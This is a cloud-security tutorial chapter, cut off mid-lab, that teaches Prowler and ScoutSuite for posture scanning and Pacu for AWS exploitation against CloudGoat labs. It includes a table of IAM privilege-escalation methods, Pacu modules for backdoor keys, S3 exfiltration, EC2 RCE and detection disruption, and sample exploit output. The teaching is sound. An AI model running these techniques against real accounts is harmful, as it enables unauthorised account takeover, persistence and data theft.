





**Level:** Advanced · **Track:** Cloud Security · **Read time:** 300 min

This is Chapter 3 of the Cloud Security notebook. Chapter 2 took you hands-on with the raw AWS CLI — enumerating IAM, looting S3, stealing IMDS credentials, and walking privilege-escalation paths one `aws` command at a time. Doing it by hand is how you *understand* the attack surface, but no real engagement is run that way: an account can have hundreds of roles, thousands of resources, and dozens of privilege-escalation primitives, and you have a fixed number of days. This chapter is about the tools that turn that manual knowledge into repeatable, auditable, at-scale work — **Pacu** for offense, **ScoutSuite** and **Prowler** for posture and breadth.

The three tools answer three different questions. Prowler asks *"where does this account violate a known-good benchmark?"* — it is a compliance and misconfiguration scanner. ScoutSuite asks *"what does the whole account look like, and where are the risky spots?"* — it is a multi-cloud auditor that renders an offline dashboard. Pacu asks *"given this credential, how far can I actually get?"* — it is an exploitation framework that enumerates, escalates, moves laterally, and persists. A mature assessment uses all three: the scanners give you breadth and a prioritised list of weaknesses in an hour; Pacu gives you the depth and the proof-of-exploit that turns a "finding" into a demonstrated impact.

Everything in this chapter is for accounts you own or are explicitly authorised to assess, inside the provider's penetration-testing policy (Chapter 1, Part 12) and the customer's written rules of engagement. Every technique below is safest to practise in a throwaway account or a purpose-built vulnerable lab — **CloudGoat**, **flAWS/flaws2**, **AWSGoat**, **CloudFoxable** — all of which are used as targets throughout. Running any of these tools against infrastructure you do not own is unauthorised access and, in most jurisdictions, a crime.

---

## Part 1: Where These Tools Sit — Breadth vs Depth

Before installing anything, get the mental model straight, because it decides *when* you reach for each tool during an engagement.

Cloud assessment work splits into two motions. **Posture assessment** is breadth-first: you point a tool at an account with read-only or security-audit permissions and it inventories everything and flags what is misconfigured against a standard. This is what Prowler and ScoutSuite do. It is fast, low-risk, mostly read-only, and it is what a "cloud security review" or a CIS-benchmark audit is built on. **Exploitation** is depth-first: you start from a credential — often a low-privilege one — and you chain misconfigurations into real impact (privesc to admin, cross-account movement, data exfiltration, persistence). This is what Pacu does, and it is closer to a classic penetration test.



The order matters. On a typical assessment you run the **scanners first** — Prowler and ScoutSuite — because in under an hour they hand you a ranked map of the weak points: public buckets, over-permissive roles, disabled logging, unencrypted volumes, exposed security groups. Then you take the most promising of those findings into **Pacu** (or the raw CLI) to prove exploitability. A finding that says "role X has `iam:PassRole` and `ec2:RunInstances`" is a maybe; a Pacu run that actually assumes an admin role through that path and reads a secret is a demonstrated breach. Clients and reports live and die on that difference.

**Comparison at a glance:**

| Tool | Primary question | Clouds | Access needed | Read/Write | Output |
|------|------------------|--------|---------------|------------|--------|
| **Prowler** | Compliance & misconfig vs benchmarks | AWS, Azure, GCP, Kubernetes | SecurityAudit / read-only | Read-only | CSV/JSON/HTML, compliance-framework reports |
| **ScoutSuite** | Whole-account posture & risky spots | AWS, Azure, GCP, Aliyun, OCI | SecurityAudit / read-only | Read-only | Offline HTML dashboard + raw JSON |
| **Pacu** | How far can this credential get | AWS (primary) | Whatever the credential has | Read **and write** | Session DB, per-module loot, logs |

Keep one distinction burned in: **Prowler and ScoutSuite are read-only** — they call `Describe*`, `List*`, `Get*` APIs and never change the account. **Pacu writes** — its exploitation modules create roles, launch instances, modify policies, and create access keys. That single fact changes the authorisation you need, the noise you make, and the blast radius if something goes wrong. Never run Pacu's write modules against production without explicit, scoped, written approval and a rollback plan.

---

## Part 2: The Lab Environment — Get a Safe Target First

You do not learn these tools by reading; you learn them by running them against something that is *supposed* to be broken. Set up at least one vulnerable-by-design target before touching a real account.

**CloudGoat** (Rhino Security Labs) is the standard AWS practice range. It is a Terraform-driven tool that deploys deliberately vulnerable "scenarios" into an AWS account you own, gives you a starting credential, and expects you to reach a goal (usually admin or a secret). Install it into a **dedicated, empty AWS account** — never your main one, because it creates intentionally insecure resources.

```bash
# Prereqs: an AWS account you own, awscli configured with admin on it,
# terraform >= 1.0, python3, git. Use a THROWAWAY account.
git clone https://github.com/RhinoSecurityLabs/cloudgoat.git
cd cloudgoat
pip3 install -r requirements.txt          # installs the cloudgoat deps
./cloudgoat.py config profile             # point it at your AWS CLI profile
./cloudgoat.py config whitelist --auto    # whitelists your public IP for SGs

# Deploy a scenario (this one is a classic IAM privesc chain):
./cloudgoat.py create iam_privesc_by_rollback
```

Typical output ends with a starting credential you will feed to the tools:

```text
[cloudgoat] terraform apply completed with no error code.
[cloudgoat] terraform output:
cloudgoat_output_policy_manager_access_key_id = AKIAQ...EXAMPLE
cloudgoat_output_policy_manager_secret_key    = wJalr...EXAMPLEKEY
[cloudgoat] Scenario files stored in ./iam_privesc_by_rollback_XXXX/
```

When you are finished, **always destroy it** so you are not billed and not leaving insecure infra lying around:

```bash
./cloudgoat.py destroy iam_privesc_by_rollback
# or nuke everything CloudGoat created:
./cloudgoat.py destroy all
```

Other good targets: **flaws.cloud** and **flaws2.cloud** (Scott Piper's hosted challenges — no deploy needed, browser + CLI), **AWSGoat** (OWASP-style web-app-plus-cloud), and **CloudFoxable** (built to practise the CloudFox recon tool but useful generally). For a first pass through this chapter, `cloudgoat create iam_privesc_by_rollback` plus `cloudgoat create ec2_ssrf` gives you enough surface to exercise all three tools.

> **Ethics / lawful-use, restated because it matters:** these are your accounts. The credential CloudGoat prints is scoped to resources CloudGoat created in an account you control. The moment you point any of this tooling at an account you were not authorised to test, you are committing unauthorised access. Keep your CloudGoat account isolated (separate billing, no cross-account trust into anything real) so a mistake there cannot touch anything you care about.

---

## Part 3: Prowler From Scratch — The Compliance Scanner

We start with Prowler because it is the fastest way to get value and it is read-only, so it is the safest thing to run first.

### What Prowler is and why it exists

**Prowler** is an open-source, command-line security tool that audits a cloud account against hundreds of individual checks and maps the results to well-known compliance frameworks — **CIS Benchmarks**, **PCI-DSS**, **HIPAA**, **NIST 800-53**, **GDPR**, **FedRAMP**, **SOC 2**, AWS's own Foundational Security Best Practices, and more. It began life as a Bash script focused on the CIS AWS Foundations Benchmark and is now a Python project (**Prowler 3/4/5**) covering AWS, Azure, GCP, and Kubernetes with 500+ AWS checks alone. Its job is to answer, in one run, *"which of these known-good rules does this account break, and how bad is each one?"*

Think of Prowler as the tool that produces the *evidence table* in a cloud audit report. Each check has a stable ID, a severity, a service, a remediation, and a pass/fail per resource — exactly what an auditor or a remediation ticket needs.

### Install

Prowler is a Python package. Use a virtualenv so it does not collide with system packages.

```bash
# Recommended: isolated env (v4/v5 are the current major lines)
python3 -m venv ~/prowler-venv
source ~/prowler-venv/bin/activate
pip install prowler            # installs the `prowler` CLI

prowler --version
# Prowler 4.x.x   (or 5.x.x)

# Alternatives:
#   pipx install prowler         # keeps it isolated globally
#   docker run toniblyx/prowler:latest   # containerised, no local python
```

Prowler uses the **same credential chain as the AWS CLI** — environment variables, `~/.aws/credentials` profiles, or an assumed role. Give it read access; the AWS-managed `SecurityAudit` policy plus a small amount of extra read (`ViewOnlyAccess`) covers almost every check.

```bash
export AWS_ACCESS_KEY_ID=AKIA...
export AWS_SECRET_ACCESS_KEY=wJalr...
export AWS_SESSION_TOKEN=...           # if using temporary/STS creds
# or:
prowler aws --profile my-audit-profile
```

### The core workflow

The simplest possible run scans the whole account with every AWS check:

```bash
prowler aws
```

Prowler streams coloured PASS/FAIL lines as it goes and writes report files at the end. Trimmed sample output:

```text
Using the AWS credentials below:
 · AWS-CLI Profile: default
 · AWS Account: 111122223333
 · User: arn:aws:iam::111122223333:user/audit

-> Scanning 300+ checks across 60+ services ...

FAIL  iam_root_hardware_mfa_enabled            [CRITICAL]  Root account has no hardware MFA
FAIL  s3_bucket_public_access                  [HIGH]      Bucket 'company-backups' is public
PASS  ec2_ebs_default_encryption               [MEDIUM]    EBS default encryption is enabled
FAIL  cloudtrail_multi_region_enabled          [HIGH]      No multi-region trail configured
FAIL  guardduty_is_enabled                     [HIGH]      GuardDuty not enabled in us-east-1
...

Overview Results:
  Critical: 3   High: 21   Medium: 44   Low: 12   Pass: 190

Detailed results are in:
 - output/prowler-output-111122223333-20270409.csv
 - output/prowler-output-111122223333-20270409.json
 - output/prowler-output-111122223333-20270409.html
```

The **HTML report** is the one you open in a browser and hand to a client — it groups findings by severity and service and is fully offline. The **CSV/JSON** are what you pipe into a tracker or diff between runs.

### Filtering — the flags you will actually use

A full scan is noisy. In practice you narrow it. These are the flags that carry the weight:

| Flag | Purpose | Example |
|------|---------|---------|
| `--services` | Only scan specific services | `prowler aws --services s3 iam ec2` |
| `--checks` | Run named checks only | `prowler aws --checks s3_bucket_public_access` |
| `--check-id` / `--excluded-checks` | Include/exclude by ID | `--excluded-checks ec2_elastic_ip_unassigned` |
| `--severity` | Filter by severity | `prowler aws --severity critical high` |
| `--compliance` | Report against one framework | `prowler aws --compliance cis_2.0_aws` |
| `--region` | Limit regions (faster, cheaper) | `prowler aws --region us-east-1 eu-west-1` |
| `--output-formats` | Choose report types | `--output-formats csv json html` |
| `--output-directory` | Where reports land | `-o ./client-acme/` |
| `-q` / `--quiet` | Only show failing checks | `prowler aws -q` |
| `--list-checks` | Enumerate available checks | `prowler aws --list-checks` |
| `--list-compliance` | Enumerate frameworks | `prowler aws --list-compliance` |

A realistic engagement command looks like this — critical/high only, against the CIS 2.0 benchmark, EU + us-east-1, reports into a client folder:

```bash
prowler aws \
  --profile acme-audit \
  --compliance cis_2.0_aws \
  --severity critical high \
  --region us-east-1 eu-west-1 eu-central-1 \
  --output-formats csv json html \
  --output-directory ./acme-2027-04/ \
  -q
```

### Compliance framework reporting

The `--compliance` flag is Prowler's headline feature. Instead of a flat list of failures it produces a report *structured by the framework's control numbering*, so you can say "control 1.14 (hardware MFA on root) — FAIL" in the exact language an auditor expects.

```bash
# What frameworks are available?
prowler aws --list-compliance
# cis_1.4_aws, cis_2.0_aws, cis_3.0_aws, pci_3.2.1_aws, hipaa_aws,
# nist_800_53_revision_4_aws, gdpr_aws, soc2_aws, aws_foundational_security_best_practices, ...

# Produce a CIS 3.0 report:
prowler aws --compliance cis_3.0_aws -o ./acme-cis/
```

Prowler writes a dedicated compliance CSV alongside the normal report, one row per control with the mapped check results — this is what goes straight into a gap-analysis spreadsheet.

**Assessor tip:** run Prowler with `--compliance cis_2.0_aws` on day one for the ranked-by-control view, and *also* a plain `-q` run for the raw failing checks the client's engineers will actually fix. The two views serve two audiences: control owners and remediation engineers.

### Prowler for Azure and GCP

Prowler is multi-cloud. The provider is the first positional argument:

```bash
# Azure — authenticate with the Azure CLI first (az login), then:
prowler azure --az-cli-auth

# or a service principal:
prowler azure --sp-env-auth        # reads AZURE_CLIENT_ID / SECRET / TENANT_ID

# GCP — uses application-default credentials:
gcloud auth application-default login
prowler gcp

# Kubernetes:
prowler kubernetes --kubeconfig-file ~/.kube/config
```

The check catalogue differs per cloud (Azure checks cover Entra ID, Storage, Defender for Cloud; GCP covers IAM, GCS, Compute, Logging), but the flag grammar — `--services`, `--severity`, `--compliance`, `--output-formats` — is identical, which is exactly why Prowler is worth learning once.

---

## Part 4: Reading Prowler Output Like an Assessor

A raw Prowler run against a real account can produce hundreds of findings. The skill is triage, not generation.

**Severity first, but context always.** A CRITICAL "root has no MFA" is a real finding. A HIGH "S3 bucket public" needs a second look — is it *meant* to be public (a static website, a public dataset)? Prowler cannot know intent, so a chunk of triage is separating true misconfigurations from intentional design. Note the false positives explicitly in the report; an audit that flags a deliberately public CDN bucket as a breach loses credibility.

**Group by root cause, not by finding.** Twenty "security group allows 0.0.0.0/0 on port 22" findings across twenty instances are *one* problem — a missing guardrail — not twenty. Collapse them in the report and give one remediation (an SCP or Config rule that blocks open SSH), or the client drowns.

**Chain findings into a story.** Prowler is read-only and reports each finding in isolation, but as an attacker you read them *together*: "CloudTrail is off (HIGH) **and** GuardDuty is off (HIGH) **and** a role has `iam:*` (CRITICAL)" is not three findings — it is a blind, unmonitored path to account takeover. This is the bridge into Pacu: the scanner tells you the door is unlocked; Pacu walks through it.



A useful command to turn JSON into a quick triage table is `jq`:

```bash
# Top failing checks by count, from the JSON output:
jq -r '.[] | select(.status=="FAIL") | .check_id' \
   output/prowler-output-*.json | sort | uniq -c | sort -rn | head -20
```

```text
  34 ec2_securitygroup_allow_ingress_from_internet_to_any_port
  21 s3_bucket_level_public_access_block
  18 iam_user_no_setup_initial_access_key
  12 rds_instance_no_public_access
   9 cloudwatch_log_metric_filter_root_usage
   ...
```

That histogram is your remediation roadmap in one glance — the biggest number is usually the missing guardrail worth fixing first.

---

## Part 5: ScoutSuite From Scratch — The Multi-Cloud Auditor

Where Prowler produces a *list of checks*, **ScoutSuite** produces a *map of the account*. It is the second scanner in the kit and it complements Prowler rather than duplicating it.

### What ScoutSuite is

**ScoutSuite** (NCC Group) is an open-source, multi-cloud security-auditing tool. It uses the provider's read-only APIs to pull the *entire* configuration of an account, runs a rule set over that configuration, and renders a **static, offline HTML dashboard** you browse locally. It covers AWS, Azure, GCP, Alibaba Cloud, and Oracle Cloud. Its strength is the *visual, navigable inventory*: you click through services, see every resource, and the risky ones are colour-coded (red/orange/yellow). It answers "what is *in* this account and where are the sharp edges" in a way a flat CSV cannot.

The key difference from Prowler: Prowler is check-centric and compliance-mapped (great for audits and tickets); ScoutSuite is resource-centric and exploratory (great for *understanding* an unfamiliar account and spotting the odd thing). Most assessors run both.

### Install

```bash
python3 -m venv ~/scout-venv
source ~/scout-venv/bin/activate
pip install scoutsuite

scout --help
# usage: scout [-h] {aws,azure,gcp,aliyun,oci} ...
```

Like Prowler, it uses the standard AWS credential chain and needs read-only access (`SecurityAudit` + `ReadOnlyAccess` is the safe combination).

### The core workflow

```bash
# Scan an AWS account using a named profile:
scout aws --profile acme-audit

# Restrict to regions to go faster / cheaper:
scout aws --profile acme-audit --regions us-east-1,eu-west-1

# Ruleset & report land in ./scoutsuite-report/
```

Sample run:

```text
2027-04-09 ... scout[INFO] Launching Scout
2027-04-09 ... scout[INFO] Authenticating to AWS
2027-04-09 ... scout[INFO] Gathering data from APIs
2027-04-09 ... scout[INFO]   - IAM: fetching users, roles, policies... 142 items
2027-04-09 ... scout[INFO]   - S3:  fetching buckets... 37 buckets
2027-04-09 ... scout[INFO]   - EC2: fetching instances, SGs, volumes... 88 items
2027-04-09 ... scout[INFO] Running rule engine (Ruleset: default)
2027-04-09 ... scout[INFO] Rules matched: 61
2027-04-09 ... scout[INFO] Report saved to scoutsuite-report/scoutsuite-results/
2027-04-09 ... scout[INFO] Opening report: scoutsuite-report/aws-acme.html
```

It opens the dashboard in your browser automatically. The landing page is a service grid with a red/orange/green summary per service; clicking a service (say IAM) drills into every resource and highlights the flagged ones with the rule that matched and why. Because the report is fully static HTML+JS, you can zip `scoutsuite-report/` and hand it to a client to browse offline — no ScoutSuite install needed on their side.

### Useful flags

| Flag | Purpose |
|------|---------|
| `--profile NAME` | AWS CLI profile to use |
| `--regions r1,r2` | Limit regions scanned |
| `--services s3 iam` | Only these services |
| `--exceptions FILE` | Suppress known/accepted findings |
| `--ruleset FILE` | Use a custom rule set |
| `--report-dir DIR` | Output location |
| `--no-browser` | Don't auto-open (for CI) |
| `--max-workers N` | Parallelism for API calls |

### The rule-set engine

ScoutSuite's findings come from a **rule set** — a JSON file mapping a finding name to a condition over the gathered configuration. The default ruleset ships with the tool; you can copy and edit it to tune out noise or add organisation-specific rules.

```bash
# Dump the default ruleset to customise it:
scout aws --ruleset default --profile acme-audit
# then copy ~/.../ScoutSuite/providers/aws/rules/rulesets/default.json,
# edit thresholds (e.g. flag SGs open to 0.0.0.0/0 on ANY port, not just 22),
# and re-run with --ruleset ./my-ruleset.json
```

A rule entry looks roughly like this (illustrative):

```json
"iam-user-with-inline-policies.json": {
  "enabled": true,
  "level": "warning"
}
```

The `level` (`danger`/`warning`) controls the colour and severity in the dashboard. Tuning the ruleset is how you make ScoutSuite speak your client's risk appetite instead of the defaults.

**Cross-tool note:** ScoutSuite and Prowler will overlap on obvious findings (public buckets, open SGs). That is fine — agreement between two independent tools *strengthens* a finding in a report. Where they diverge is instructive: ScoutSuite's inventory view often surfaces the *weird* resource (a lone instance in an unused region, a role with a strange trust policy) that a check-list scanner buries.

---

## Part 6: Pacu From Scratch — The AWS Exploitation Framework

Now the offense tool. **Pacu** is the one that writes to the account, so everything about it — authorisation, opsec, blast radius — is more serious than the scanners.

### What Pacu is

**Pacu** (Rhino Security Labs) is an open-source **AWS exploitation framework** — think Metasploit, but for AWS. It is organised around **sessions** (a saved workspace with its own credentials and captured data) and **modules** (individual attack/enumeration actions). You import a credential, enumerate what it can do, run privilege-escalation and lateral-movement modules, and Pacu stores every piece of loot (users, roles, secrets, instances) in a local SQLite database tied to the session so later modules can reuse it. It automates the exact CLI loops from Chapter 2, at scale, with the results kept organised.

### Install

```bash
python3 -m venv ~/pacu-venv
source ~/pacu-venv/bin/activate
pip install pacu

pacu          # first launch creates ~/.local/share/pacu/ and a session DB
```

```text
 ____                  
|  _ \ __ _  ___ _   _ 
| |_) / _` |/ __| | | |
|  __/ (_| | (__| |_| |
|_|   \__,_|\___|\__,_|

Pacu (x.y.z) — the AWS exploitation framework

No sessions found. Enter a session name to create one:
> acme-engagement
Session 'acme-engagement' created.
Pacu (acme-engagement:No Keys Set) >
```

The prompt tells you the session name and the credential state — here `No Keys Set`.

### Sessions and importing credentials

A **session** isolates one engagement: its own creds, its own captured data, its own logs. Import a credential two ways — paste it in with `set_keys`, or pull it from your AWS CLI config with `import_keys`:

```text
Pacu (acme-engagement:No Keys Set) > set_keys
Key alias [None]: policy_manager
Access key ID: AKIAQ...EXAMPLE
Secret access key: wJalr...EXAMPLEKEY
Session token (Optional): 
Keys saved to database.

# or import an existing awscli profile:
Pacu (acme-engagement:No Keys Set) > import_keys cloudgoat-profile
Imported keys as "imported-cloudgoat-profile"
Pacu (acme-engagement:policy_manager) >
```

### The whoami / enumerate loop

The first thing you do with any credential is find out *who you are* and *what you can do*. Pacu's `whoami` prints the current identity and everything captured so far; `iam__enum_permissions` brute-forces the credential's actual permissions.

```text
Pacu (acme-engagement:policy_manager) > whoami
{
  "UserName": "policy_manager",
  "Arn": "arn:aws:iam::111122223333:user/policy_manager",
  "AccountId": "111122223333",
  "Permissions": { "Allow": {}, "Deny": {} }
}

Pacu (acme-engagement:policy_manager) > run iam__enum_permissions
[iam__enum_permissions] Starting...
[iam__enum_permissions] Confirmed permissions for user: policy_manager
[iam__enum_permissions]   iam:ListPolicies, iam:GetPolicy,
    iam:GetPolicyVersion, iam:SetDefaultPolicyVersion, iam:ListPolicyVersions ...
[iam__enum_permissions] Enumeration complete. Data stored in session.
```

Now `whoami` shows the discovered permissions, and — crucially — later modules can *read them from the session* instead of re-querying AWS.

### The offensive module catalogue

Pacu ships with dozens of modules grouped by category. `ls` lists them; `search` finds one; `help <module>` explains it.

```text
Pacu (acme-engagement:policy_manager) > ls
[Category: RECON_UNAUTH]
  iam__enum_roles, iam__enum_users ...
[Category: ENUM]
  iam__enum_permissions, iam__enum_users_roles_policies_groups,
  ec2__enum, s3__bucket_finder, rds__enum, lambda__enum ...
[Category: PRIVESC]
  iam__privesc_scan ...
[Category: LATERAL_MOVE]
  iam__backdoor_users_keys, sts__assume_role ...
[Category: PERSISTENCE]
  iam__backdoor_users_keys, lambda__backdoor_new_users ...
[Category: EXFIL]
  s3__download_bucket ...
[Category: EXPLOIT]
  ec2__startup_shell_script, systemsmanager__rce_ec2 ...
[Category: EVADE]
  detection__disruption, cloudtrail__download_event_history ...
```

The modules you will reach for most:

| Module | Category | What it does |
|--------|----------|--------------|
| `iam__enum_permissions` | ENUM | Brute-forces the current credential's permissions |
| `iam__enum_users_roles_policies_groups` | ENUM | Full IAM inventory of the account |
| `iam__privesc_scan` | PRIVESC | Finds **and can auto-exploit** privilege-escalation paths |
| `ec2__enum` | ENUM | Enumerates EC2 instances, SGs, volumes, AMIs |
| `ec2__download_userdata` | ENUM/EXFIL | Pulls EC2 user-data (often holds secrets) |
| `s3__bucket_finder` / `s3__download_bucket` | ENUM/EXFIL | Finds and exfiltrates bucket contents |
| `sts__assume_role` | LATERAL | Assumes a role you have rights to |
| `iam__backdoor_users_keys` | PERSIST | Creates a second access key on a user (backdoor) |
| `secrets__enum` | ENUM/EXFIL | Loots Secrets Manager and SSM Parameter Store |
| `detection__enum_services` | RECON | Finds CloudTrail/GuardDuty/Config state (are you watched?) |
| `cloudtrail__download_event_history` | RECON/EVADE | Reads CloudTrail to understand logging |

### iam__privesc_scan — the star module

`iam__privesc_scan` is Pacu's flagship. It takes the permissions captured by `iam__enum_permissions`, checks them against ~20 known AWS privilege-escalation methods (the Rhino Security Labs research catalogue — `CreateNewPolicyVersion`, `AttachUserPolicy`, `PassRole`+`RunInstances`, `PassExistingRoleToNewLambda`, `PutUserPolicy`, `UpdateRollback`, etc.), and tells you which paths are available. With `--exploit` it will *actually perform* the escalation.

```text
Pacu (acme-engagement:policy_manager) > run iam__privesc_scan
[iam__privesc_scan] Escalation methods available to this user:
[iam__privesc_scan]   CONFIRMED: SetExistingDefaultPolicyVersion
[iam__privesc_scan]   POTENTIAL: CreateNewPolicyVersion
[iam__privesc_scan] The user can roll back a managed policy to a
    previous, more-permissive version (iam:SetDefaultPolicyVersion).
[iam__privesc_scan] Run again with --exploit to attempt escalation.

Pacu (acme-engagement:policy_manager) > run iam__privesc_scan --exploit
[iam__privesc_scan] Attempting SetExistingDefaultPolicyVersion...
[iam__privesc_scan]   Policy: arn:aws:iam::111122223333:policy/policy_manager_policy
[iam__privesc_scan]   Found 3 versions; v1 grants iam:* and s3:*
[iam__privesc_scan]   Setting default version -> v1
[iam__privesc_scan]   SUCCESS — user now has expanded permissions.
[iam__privesc_scan] Re-run iam__enum_permissions to confirm new access.
```

That is the `iam_privesc_by_rollback` CloudGoat scenario solved by one module: an old policy version granted `iam:*`, and `iam:SetDefaultPolicyVersion` let the low-priv user roll the policy back to it. Re-running `iam__enum_permissions` now shows admin.

### The privilege-escalation methods `iam__privesc_scan` knows

It helps to know *what* the module checks for, because in a real account you often can't run `--exploit` blindly and need to reason about each path. These are the core AWS IAM privesc primitives (from the Rhino Security Labs catalogue) the module tests, each keyed on the permission(s) it needs:

| Method | Key permission(s) | How the escalation works |
|--------|-------------------|--------------------------|
| `CreateNewPolicyVersion` | `iam:CreatePolicyVersion` | Create a new default version of an attached policy granting `*:*` |
| `SetExistingDefaultPolicyVersion` | `iam:SetDefaultPolicyVersion` | Roll a policy back to an older, more-permissive version |
| `AttachUserPolicy` | `iam:AttachUserPolicy` | Attach `AdministratorAccess` directly to yourself |
| `AttachGroupPolicy` | `iam:AttachGroupPolicy` | Attach admin to a group you belong to |
| `PutUserPolicy` | `iam:PutUserPolicy` | Inline an admin policy onto your own user |
| `AddUserToGroup` | `iam:AddUserToGroup` | Join a group that already has admin |
| `CreateAccessKey` | `iam:CreateAccessKey` | Mint keys for a more-privileged user |
| `CreateLoginProfile` | `iam:CreateLoginProfile` | Set a console password on a privileged user |
| `UpdateLoginProfile` | `iam:UpdateLoginProfile` | Reset a privileged user's console password |
| `PassRole+RunInstances` | `iam:PassRole`,`ec2:RunInstances` | Launch an EC2 with an admin instance-profile, then reach IMDS |
| `PassExistingRoleToNewLambda` | `iam:PassRole`,`lambda:CreateFunction`,`lambda:InvokeFunction` | Run code as an admin role via Lambda |
| `PassRoleToNewGlue/CloudFormation/DataPipeline` | `iam:PassRole` + service create | Same idea via Glue, CloudFormation, or Data Pipeline |
| `EditExistingLambdaFunctionWithRole` | `lambda:UpdateFunctionCode` | Overwrite a function that already runs as an admin role |

The module maps your confirmed permissions onto this table and prints `CONFIRMED` (all required perms present) or `POTENTIAL` (some present, worth manual checking). Understanding the table means you can pursue a path manually when `--exploit` is disallowed by RoE, or when a subtle condition key blocks the automated attempt.

### Non-interactive / automation mode

Pacu can run modules headlessly for scripting and CI-style repeatability, which matters when you want a reproducible evidence trail rather than an interactive session:

```bash
# Run a single module against a named session without the interactive prompt:
pacu --session cg-rollback --module-name iam__enum_permissions --exec

# Chain several modules from a one-liner:
pacu --session cg-rollback \
     --module-name iam__enum_permissions --exec \
     && pacu --session cg-rollback --module-name iam__privesc_scan --exec
```

Everything a module captures is queryable later with the `data` command inside the session (`data IAM`, `data EC2`, `data S3`), and the whole session — including the loot — lives in a SQLite DB under `~/.local/share/pacu/`, so you can hand a colleague the DB file and they resume exactly where you stopped.

---

## Part 7: Worked Lab — Chaining All Three Against CloudGoat

Now the payoff: a single end-to-end walk-through that uses Prowler and ScoutSuite for breadth, then Pacu for the kill. Target is the `iam_privesc_by_rollback` scenario deployed in Part 2; the starting credential is the low-priv `policy_manager` key CloudGoat printed.

### Step 0 — configure the starting credential

```bash
aws configure --profile cg-lowpriv
# AWS Access Key ID: AKIAQ...EXAMPLE
# AWS Secret Access Key: wJalr...EXAMPLEKEY
# region: us-east-1 ; output: json

# Sanity check — who are we?
aws --profile cg-lowpriv sts get-caller-identity
```

```json
{
  "UserId": "AIDAQ...EXAMPLE",
  "Account": "111122223333",
  "Arn": "arn:aws:iam::111122223333:user/policy_manager"
}
```

### Step 1 — Prowler for the lay of the land (read-only)

```bash
prowler aws --profile cg-lowpriv --services iam s3 --severity critical high -q
```

```text
FAIL  iam_policy_allows_privilege_escalation   [HIGH]   policy_manager_policy has an
        older version granting iam:* / s3:* that can be restored
FAIL  iam_customer_managed_policy_no_full_admin [HIGH]  Managed policy allows iam:*
PASS  s3_bucket_public_access                          No public buckets
```

Prowler, even from a low-priv credential, already whispers the answer: an over-permissive policy version exists and is restorable. That is the finding we will *prove*.

### Step 2 — ScoutSuite for the inventory picture

```bash
